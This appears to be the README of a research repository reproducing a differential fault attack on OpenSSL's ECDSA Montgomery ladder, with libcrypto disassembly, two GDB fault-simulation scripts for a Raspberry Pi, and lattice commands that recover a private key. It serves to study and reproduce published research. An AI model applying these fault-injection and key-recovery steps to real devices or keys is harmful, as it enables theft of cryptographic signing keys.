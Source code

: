 # DFA Simulation on Raspberry Pi and OpenSSL with GDB

This folder contains files to test the DFA attack presented in the paper *Differential Fault Attack on Montgomery Ladder and in the Presence of Scalar Randomization* using GDB to simulate fault injections.

Two fault models are tested:
* Skip instruction: a single targeted instruction is omitted during the generation of an ECDSA signature;
* Random fault in a register: a modification of a register at a specific moment of the generation of an ECDSA signature.


## Content

This repository contains several files used for the simulation.

* `binary/`: it contains a simple program to be linked to OpenSSL at compilation;
* `scripts/`: two GDB scripts that instrument the two fault models considered, tested on a Raspberry Pi device model 4B;
* `sig/`: it contains two files with the signatures obtained with each of the two GDB scripts, and those need to be analyzed for the lattice attack.


## Compilation of the Program

This has only been tested on a Raspberry Pi 4B, with the latest Raspberry Pi OS Lite (formerly known as Raspbian) as of 2021.

It is compiled with the following command so it is linked to the OpenSSL cryptographic library `libcrypto`:

```
gcc main.c -lcrypto -o ecsdasign
```

This program takes as input an elliptic curve private key, a message to sign and a file where the signature is appended.


## The Instruction Address

The line `pbit <- pbit XOR k_i` can be found at the address `0xdd208` in the `libcrypto` library:

```
dd1e8:    e1a01008     mov    r1, r8
dd1ec:    e59d0008     ldr    r0, [sp, #8]
dd1f0:    ebfeb892     bl    8b440 <BN_is_bit_set>
dd1f4:    e59d600c     ldr    r6, [sp, #12]
dd1f8:    e1a03009     mov    r3, r9
dd1fc:    e59b2008     ldr    r2, [fp, #8]
dd200:    e5971008     ldr    r1, [r7, #8]
dd204:    e2488001     sub    r8, r8, #1
dd208:    e0266000     eor    r6, r6, r0
dd20c:    e1a0a000     mov    sl, r0
dd210:    e1a00006     mov    r0, r6
dd214:    ebfeb8ce     bl    8b554 <BN_consttime_swap>
dd218:    e1a00006     mov    r0, r6
dd21c:    e1a03009     mov    r3, r9
dd220:    e59b200c     ldr    r2, [fp, #12]
dd224:    e597100c     ldr    r1, [r7, #12]
dd228:    e58da00c     str    sl, [sp, #12]
dd22c:    ebfeb8c8     bl    8b554 <BN_consttime_swap>
dd230:    e1a00006     mov    r0, r6
dd234:    e1a03009     mov    r3, r9
dd238:    e59b2010     ldr    r2, [fp, #16]
dd23c:    e5971010     ldr    r1, [r7, #16]
dd240:    ebfeb8c3     bl    8b554 <BN_consttime_swap>
```

In the program `ecdsasign`, its corresponding address becomes `0xb6e68208`.


## Skip Instruction Fault Model

The script `gdbsimulfault1.gdb` generates 40 signatures with an instruction skipped during the process of the bit *k_17* of the scalar in the Montgomery ladder algorithm.

```gdb
set pagination off
set logging file gdb1.log
set logging on
b main
r
# breakpoint before pbit <- pbit XOR k_i
b *0xb6e68208
disable 2
kill

set $ctr=0
while($ctr<40)
  r privkey.pem message.txt sig1.bin
  # do nothing for the first 238 ladder steps
  enable 2
  ignore 2 238
  c
  info registers
  # skip instruction with a jump to the next one
  jump *0xb6e6820c
  disable 2
  c
  set $ctr=$ctr+1
end
set logging off
quit
```

This is done with a breakpoint at the desired address, but it is ignored for the first 238 iterations out of the 256.
Then a jump to the following instructions is done, and the calculation is resumed.
All signatures are stored in the file `sig1.bin`, and the value of the registers before the skip instruction are logged in the file `gdb1.log`.

The script is executed with the following command:

```
gdb ./binary/ecdsasign --command=scripts/gdbsimulfault1.gdb
```

## Random Fault in a Register Model

Same as above, but with the following script:

```gdb
set pagination off
set logging file gdb2.log
set logging on
b main
r
# breakpoint after pbit <- pbit XOR k_i
b *0xb6e6820c
disable 2
kill

set $ctr=0
while($ctr<40)
  r privkey.pem message.txt sig2.bin
  # do nothing for the first 238 ladder steps
  enable 2
  ignore 2 238
  c
  info registers
  # simulate random fault in register r6 (value of pbit for swaps)
  set $r6=0x55adab
  disable 2
  c
  set $ctr=$ctr+1
end
set logging off
quit

```

The main difference is that the register `r6` is modified with an arbitrary value after the execution of the instruction `pbit <- pbit XOR k_i`.
The variable `pbit` is used for the conditional swap of the points *R0* and *R1* in the algorithm.
When this value is *0*, the swap is ineffective, and when this value is nonzero, the swap is effective.
In the case the result of the XOR is supposed to be *0*, any modification of the variable into a nonzero value will force the swap to occur which achieve the goal of the attack.

The command to execute is:

```
gdb ./binary/ecdsasign --command=scripts/gdbsimultfault2.gdb
```


## Private Key Recovery with Lattices

The script to launch the analysis is `gdb_dfa_analysis.py`:

```
python3 gdb_dfa_analysis.py --pubkey <pubkey> --sig <sig file> --msg <message file> --skip <min> <max> --out <output file>
```

The arguments are
* `pubkey`: filename of the public key;
* `sig`: name of the file containing the signatures;
* `msg`: filename of the signed message (it is the same for all signatures for simplicity);
* `skip`: for the analysis, makes the hypothesis that fault occured between steps 'min' and 'max';
* `out`: filename where the results of the analysis are stored.

An example is given by

```
python3 gdb_dfa_analysis.py --pubkey pubkey.pem --sig sig/sig1.bin --msg message.txt --skip 17 20 --out results1.txt
```

Then the file `results1.txt` can be used to recover the private key if there are enough useful signatures.

```
python3 solve_hnp.py results1.txt
```

And we get:

```
Elliptic curve: secp256k1
    Public key: (0xd88b5b823ab198782a96c71e8245192a5a2ede28397dab48bf89b30fa725cb58,
                 0x41c49fbc06c69bd3334dc758d07e852a1002da5e2087b61ad6f81079d6e115fd)
HNP with 16 signatures...
Private key: 67475781119067256909282760890341607740853750781792718811638448437731893210169
```

The same can be done for the file `sig2.bin` obtained with the second fault model.
